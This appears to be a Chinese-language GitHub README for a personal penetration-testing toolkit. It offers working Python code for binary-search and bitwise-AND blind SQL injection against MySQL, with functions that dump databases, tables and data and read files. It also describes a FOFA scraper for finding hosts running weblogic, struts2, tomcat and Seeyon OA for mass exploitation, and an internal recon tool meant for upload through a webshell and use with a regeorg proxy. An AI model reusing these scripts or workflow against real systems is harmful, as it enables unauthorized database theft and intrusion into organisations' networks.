







# SomeTools

**自己使用的一些脚本和工具**

|             脚本              |       功能        |
| :---------------------------: | :---------------: |
|    blind_inject_getdata.py    |  二分法盲注利用   |
| mul_blind_injdect_dumpdata.py | 多线程and盲注利用 |
|fofa_search.py | 通过fafa批量爬取检索结果 |
| WebFinder.py | 获取存活的WEB URL以及对应的标题|

---

**fofa_search**

  该脚本通过多线程爬取搜索页面的链接信息，输入参数为网页登录后的cookie信息，可通过浏览器F12 查看网络连接复制获取，支持主机和web查询，在对目标组织进行渗透的时候可以使用该脚本检索目标主机存在weblogic\struts2\tomcat\致远OA等组件的主机，然后结合poc-t\pocsuite\pocstart等漏洞检测框架批量检测，运气好的话很容易就能拿到webshell.

example:
  以下对目标组织检索tomcat主机检索然后利用pocstart批量检测并发现文件下载漏洞。

  ```
  fofa dork:org="XXX Limited" && region="CN" && protocol=="ajp"
  ```
  
  

*ReadMe*：https://forum.90sec.com/t/topic/1051

---

**WebFinder**

  该脚本主要是为了检索目标组织存活的web host以及对应的web标题，通过标题信息粗略定位下一步渗透的目标系统，通常用于内网渗透过程的信息收集，对于只能通过webshell 操作的目标，可以使用pyinstaller打包上传到目标机器进行内网信息收集，然后利用regeorg代理渗透内网。附件也提供了一个打包好的exe
 

---

**BlindInject_dump**

前段时间先知发了一篇关于盲注效率分析的文章(https://xz.aliyun.com/t/7575)，里面提到了三种盲注利用方法：**遍历法|二分法|与运算**，这里分享一下mysql盲注场景下利用二分法和与运算注入数据通用脚本。

* **实现功能**

| API                  | 功能                           |
| :------------------- | :----------------------------- |
| get_current_database | 获取当前数据库                 |
| get_current_user     | 获取当前用户                   |
| get_dbs              | 获取所有数据库                 |
| get_tables           | 获取指定数据库表名             |
| get_columns          | 获取指定数据表列名             |
| dump                 | 获取指定列数据                 |
| dump_all             | 自动化dump指定数据库的所有数据 |
| read_file            | 读取文件                       |

 

# 二分法：

这种方法比较简单，就是重复搜索判断某一个值是否介于一个区间，直至区间消失也就是区间左边界等于右边界的时候的边界值就是我们要寻找的值。

```python
def double_search(table_name, col_name, in_limit='0', index="", query =query,left_number=0, right_number=0):
    while True:
        payload = get_payload(table_name, col_name, in_limit, index, value=str(right_number), query=query)
        text = send_data(payload)
        if find_success(success_flag, text):
            left_number = right_number
            right_number = 2*right_number
        else:
            break

    while left_number < right_number:
        mid = int((left_number + right_number) / 2)
        payload = get_payload(table_name,col_name,in_limit,index,value=str(mid),query =query)
        text =send_data(payload)
        if find_success(success_flag, text):
            left_number = mid
        else:
            right_number = mid
        if left_number == right_number - 1:
            payload = get_payload(table_name, col_name, in_limit, index, value=str(mid), query=query)
            text = send_data(payload)
            if find_success(success_flag, text):
                mid += 1
                print('found')
                break
            else:
                break
    return mid
```

# 与运算：

一个字符是由8个二进制位构成，可以使用每个二进制位分别和1进行与操作，在两个操作数都是1的情况下结果才为1，所以利用这个特性可以分别获取每个二进制位进而得到该字符的ascii，当然实际编写代码的时候，我们肯定不是获取每一个二进制位来判定返回值的真假，对于一个10进制数 v,我们知道

```v= a*2^7+b*2^6+c*2^5+d*2^4+e*2^3+f*2^2+g*2^1+h*2^0  ```，其中[a-h]是八个二进制位，只需要进行 v&[2^i],i 属于 [0-7]，然后分别把得到的结果相加就可以得到 v，为了能够方便的多线程并发，可以假设[a-h]都是1,当假设成立的时候，条件为真，可以不做处理，否则将对应的二进制值置为0，最后按照前文计算公式得到v的值，进而获取全部数据。



```python
def get_values_by_and_blind(table_name, col_name, in_limit='0', query =query):
    cu_query = query
    len = int(get_length(table_name, col_name, in_limit,cu_query))
    text = ""
    if len > 0:
        payloads = []
        for  i in range(1,len+1):
            for j in range(8):
                value = 2 ** j
                payload = get_payload(table_name, col_name, in_limit, str(i), value=str(value), query=query)
                data = {}
                data['index'] = i
                data['value'] = value
                data['payload'] = payload
                payloads.append(data)
        dump = DATA_AND(payloads)  # params(threadnums,url_lists)
        dump._start()
        group_list = []
        indexs  = list(set([i.get('index') for i in payloads]))
        for index in indexs:
            temp = []
            for payload in payloads:
                if payload.get('index') == index:
                    temp.append(payload['value'])
            group_list.append(temp)
        _ = [sum(v) for v in group_list]
        text = ''.join([chr(v) for v in _])
        print("In program: " + text)
    return text


class DATA_AND(object):
    def __init__(self, payloads):
        self.threads = conf['thread_num']
        self.payloads = payloads
        self.mutex = Lock()

    def run(self, payload):
        try:
            data = payload['payload']
            text = send_data(data)
            if not find_success(success_flag, text):
                value = 0
                self.mutex.acquire()
                payload['value'] = value
                self.mutex.release()
        except Exception as e:
            print e.message

    def _start(self):
        try:

            pool = ThreadPool(processes=self.threads)
            pool.map_async(self.run, self.payloads).get(0xffff)
            pool.close()
            pool.join()

        except Exception as e:
            print e
        except KeyboardInterrupt:
            print '[!] user quit!'
            sys.exit(1)
```




*ReadMe* : https://forum.90sec.com/t/topic/1076

---
